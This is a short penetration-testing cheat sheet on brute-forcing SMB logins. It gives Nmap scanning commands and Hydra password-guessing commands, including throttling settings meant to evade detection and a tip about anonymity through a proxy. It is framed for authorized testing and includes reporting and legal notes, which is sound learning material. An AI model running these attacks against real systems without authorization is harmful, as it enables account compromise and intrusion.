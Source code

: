 
## SMB BRUTE FORCE 

**Brute Forcing SMB: A Step-by-Step Guide**

**Scanning:**

1. **Check SMB Availability:**
   - Use Nmap to scan for open SMB ports:
     ```
     nmap -p 445 192.168.1.100
     ```

2. **Check SMB Security Settings:**
   - Use Nmap's scripting engine to check for SMB signing requirements:
     ```
     nmap -p 445 --script=smb-security-mode 192.168.1.100
     ```

**Brute Force Attack:**

1. **Basic Hydra Command:**
   - Attempt brute force using a single username:
     ```
     hydra -l admin -P passwords.txt 192.168.1.100 smb
     ```

2. **Using Username List:**
   - Attempt brute force with multiple usernames:
     ```
     hydra -L users.txt -P passwords.txt 192.168.1.100 smb
     ```

3. **Adjusting Attack Parameters:**
   - Set the number of threads and wait time to avoid triggering security measures:
     ```
     hydra -L users.txt -P passwords.txt -t 1 -w 5 192.168.1.100 smb
     ```

**Post-Attack:**

1. **Handling Success:**
   - If successful, handle credentials securely and report findings to stakeholders.
   - Suggest remediation steps, such as changing passwords and enhancing authentication.

2. **Documentation:**
   - Document the entire process for future reference and learning.

3. **Legal and Ethical Considerations:**
   - Ensure all activities comply with laws and regulations.
   - Avoid disrupting target services and respect privacy laws.

**Additional Considerations:**

- **Network Environment:**
  - Be aware of firewalls, intrusion detection systems (IDS), and potential DOS conditions.
  - Consider using a proxy or VPN for anonymity in authorized tests.
